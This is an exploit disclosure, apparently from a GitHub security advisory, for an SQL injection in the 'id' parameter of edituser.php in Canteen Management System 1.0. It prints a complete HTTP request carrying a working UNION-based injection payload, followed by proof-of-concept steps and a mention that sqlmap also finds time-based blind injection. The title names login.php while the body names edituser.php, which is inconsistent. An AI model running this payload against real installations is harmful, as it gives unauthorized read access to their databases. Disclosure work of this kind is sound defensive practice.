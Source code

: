 # Canteen Management System - edituser.php 'id' SQL inject

#### Exploit Title: Canteen Management System - login.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "edituser.php /id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
GET /edituser.php?id=-7956'%20UNION%20ALL%20SELECT%20NULL,md5(1),NULL,NULL--+ HTTP/1.1
Host: 192.168.67.10:8091
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、After logging in, use the Edit User function

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserhtml.png)

2、Looking at the source code, it is found that the id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/editusersouce.png)



3、

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserburp.png)

4、The results can be directly echoed on the page by constructing correct SQL statements

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserresult.png)

5、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/editusersqlmap.png)

